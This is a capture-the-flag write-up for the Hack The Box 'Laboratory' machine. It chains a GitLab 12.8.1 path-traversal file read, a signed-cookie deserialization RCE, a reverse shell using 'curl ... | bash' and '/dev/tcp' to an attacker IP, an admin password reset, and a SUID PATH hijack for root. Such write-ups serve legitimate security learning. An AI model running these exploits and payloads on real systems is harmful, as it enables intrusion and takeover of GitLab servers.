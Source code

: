# Laboratory

## nmap -T3 -A -p- -o laboratory.nmap 10.10.10.216

[Scan result][1]

Looking at the scan results seems that there is a sub domain on git.laboratory.htb that seems a gitlab page

## Gitlab 

we can register a new account using `@laboratory.htb` as domain for email.

Searching into the repositories there is an ***SecureWebsite*** that is guaranted 100% unhackable HTML&CSS based website.

Another usefull information is the version of Gitlab in use `GitLab Community Edition 12.8.1`

`searchsploit gitlab` give an hint

```
Exploit: GitLab 12.9.0 - Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/48431
     Path: /usr/share/exploitdb/exploits/ruby/webapps/48431.txt
File Type: Python script, UTF-8 Unicode text executable, with CRLF line terminators
```

After more research on [Hackerone][2] we find a double exploit that can lead to RCE

To recreate this exploit we need to create two project inside gitlab and create an issue on project 1 with description:

`![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../file` moving the issue into the other project will copy ***file*** into the repositories.

at this point we can grab the `secret_key_base` from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` -> `3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3`

Next step to get RCE is to configure a local intance of gitlab `wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/xenial/gitlab-ce_12.8.1-ce.0_amd64.deb/download.deb` will download the installer that we need (alternatively we can run it in a docker container using this image: `gitlab/gitlab-ce:12.8.10-ce.0`).

Once installed we need to change the `secret_key_base` to match the laboratory one then run 

```bash
gitlab-ctl reconfigure
gitlab-ctl restart
gitlab-rails console 
```

Now we have to craft our cockie with reverse shell by using this template:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `echo vakzz was here > /tmp/vakzz` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```


```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl http://10.10.14.158:8000/rev.sh | bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```


Where rev.sh is:

```bash
bash -i >& /dev/tcp/10.10.14.158/9001 0>&1
```

then send the crafted cookie to the server `curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=$COOKIE" -k`

now we have a shell with user git.

## Priv esc from git

Launching linpeas seems we are in docker container

[Linpeas log][3]

As suggested by linpeas we can change the password of an user by using:

```bash
gitlab-rails runner 'user = User.where(id: 1).first; user.password = "zeru"; user.password_confirmation = "zeru"; user.save!'
```

Once resetted the password we can login as dexter into gitlab and get his private rsa key from the repository secure-docker.

Login via ssh and we get the user flag.

## Priv esc from dexter

Search for some SUID

```
find / -perm -4000 2>/dev/null
/usr/local/bin/docker-security
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/at
/usr/bin/umount
/usr/bin/chsh
/usr/bin/mount
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
```

`/usr/local/bin/docker-security` seems a strange file

Decompiling it with Ghidra result in 

```C
void main(void)

{
  setuid(0);
  setgid(0);
  system("chmod 700 /usr/bin/docker");
  system("chmod 660 /var/run/docker.sock");
  return;
}
```

This command calls two times system as root, the `system` calls the `execl` system call that will search `chmod` inside the `$PATH` env 
We can define a new `$PATH` in which `chmod` call bash instead of changing modes.

```C
void main(){
    system("bash");
    return;
}
```

And this give us the root.

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achiviement](https://www.hackthebox.eu/storage/achievements/9911ff62f77add0d0538a37385cfc9e3.png)

[//]: #links
[1]: laboratory.nmap
[2]: https://hackerone.com/reports/827052
[3]: linpeas.txt

